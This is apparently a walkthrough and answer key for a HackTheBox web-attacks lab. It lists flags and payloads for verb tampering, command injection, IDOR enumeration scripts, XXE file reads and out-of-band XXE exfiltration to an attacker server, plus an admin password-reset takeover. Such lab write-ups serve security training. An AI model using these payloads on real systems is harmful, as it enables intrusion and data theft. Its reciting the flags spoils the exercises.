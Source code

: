 # Bypassing Basic Authentication

1.  Try to use what you learned in this section to access the 'reset.php' page and delete all files. Once all files are deleted, you should get the flag.

Answer: HTB{4lw4y5_c0v3r_4ll_v3rb5}

Explanation: Simple change the HTTP Verb

# Bypassing Security Filters

1. To get the flag, try to bypass the command injection filter through HTTP Verb Tampering, while using the following filename: file; cp /flag.txt ./

Answer: HTB{b3_v3rb_c0n51573n7}

# Mass IDOR Enumeration

1. Repeat what you learned in this section to get a list of documents of the first 20 user uid's in /documents.php, one of which should have a '.txt' file with the flag.

Answer: HTB{4ll_f1l35_4r3_m1n3}

The code: 

#!/bin/bash

url="http://94.237.54.116:59987/"

for i in {1..20}; do
    for link in $(curl -s -X POST -d "uid=$i" "$url/documents.php" | grep -oP "\/documents.*?\\.\\w+"); do
        curl -O $url/$link
    done
done

# Bypassing Encoded References

Answer: HTB{h45h1n6_1d5_w0n7_570p_m3}

#!/bin/bash

url="http://94.237.50.242:47361/download.php?contract="

for i in {1..20}; do
    for encodedid in $(echo -n $i | base64); do
        curl  "$url$encodedid" 
    done
done

# IDOR in Insecure APIs

1. Try to read the details of the user with 'uid=5'. What is their 'uuid' value?

Explanation: Using the Burp proxy, there is a need to change the HTTP verb from POST to GET. And after that change the profile id in the url path to 5.

# Chaining IDOR Vulnerabilities

1. Try to change the admin's email to 'flag@idor.htb', and you should get the flag on the 'edit profile' page.

Answer: HTB{1_4m_4n_1d0r_m4573r}

Explanation: Send the request to Intruder in Burp Suite and then take a profile from 0 to 50, the 10th response in API got the role=staff_admin.
Then, send the request with PUT method with data used from the Intruder Response. See the flag.


IDOR Prevention:
IDOR caused by the improper access control on the back-end servers. 
1. Object-level access control
2. Secure references for the objects. 

# Local File Disclosure
1.  Try to read the content of the 'connection.php' file, and submit the value of the 'api_key' as the answer.

Answer: UTM1NjM0MmRzJ2dmcTIzND0wMXJnZXdmc2RmCg

Explanation: 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php">]>
<root>
<name>Dana</name>
<tel>7780052000</tel>
<email>&company;</email>
<message>I feel this</message>
</root>
```
# Advanced File Disclosure
1. Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').

Answer: HTB{3rr0r5_c4n_l34k_d474}

Explnation: 

echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///flag.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
```
<email>&joined;</email>

# Blind Data Exfiltration

1. Using Blind Data Exfiltration on the '/blind' page to read the content of '/327a6c4304ad5938eaf0efb6cc3e53dc.php' and get the flag.

Answer: HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}

Explanation: As this is XXE Blind Vulnerability, now the answer shouold be shown in open server on localhost. 
First, create the xml DTD file:

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=<file>.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

and then, to decode the shown content that will be in the open server output:
 
php file: index.php

```
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?> 
```

php -S 0.0.0.0:8000

The XXE xml payload:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```
# Skill Assessment

1. First, there is an api path: GET /api.php/user/74 that is authenticated with given credentials. 
2. with request id 52 the response is {"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}
3. Request the /api.php/token/52 - Response: 
{"token":"e51a85fa-17ac-11ec-8e51-e78234eb7b0c"}
4. Request to change the password of the Administrator
```
PUT /reset.php?uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=anne HTTP/1.1
Host: 94.237.59.180:54333
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.59.180:54333/settings.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Origin: http://94.237.59.180:54333
DNT: 1
Connection: close
Cookie: PHPSESSID=urdfe2mq9af4tjigd118sksob5; uid=74
Sec-GPC: 1

uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=anne
```
5. Login to admin account

6. Request to retrieve the flag with XXE payload:
```
POST /addEvent.php HTTP/1.1
Host: 94.237.59.180:54333
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.59.180:54333/event.php
Content-Type: text/plain;charset=UTF-8
Content-Length: 302
Origin: http://94.237.59.180:54333
DNT: 1
Connection: close
Cookie: PHPSESSID=urdfe2mq9af4tjigd118sksob5; uid=52
Sec-GPC: 1
```
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
    <!ENTITY Test SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">]>
            <root>
            <name>&Test;</name>
            <details>qwerqwer</details>
            <date>2025-02-20</date>
            </root>
```
Answer: HTB{m4573r_w3b_4774ck3r}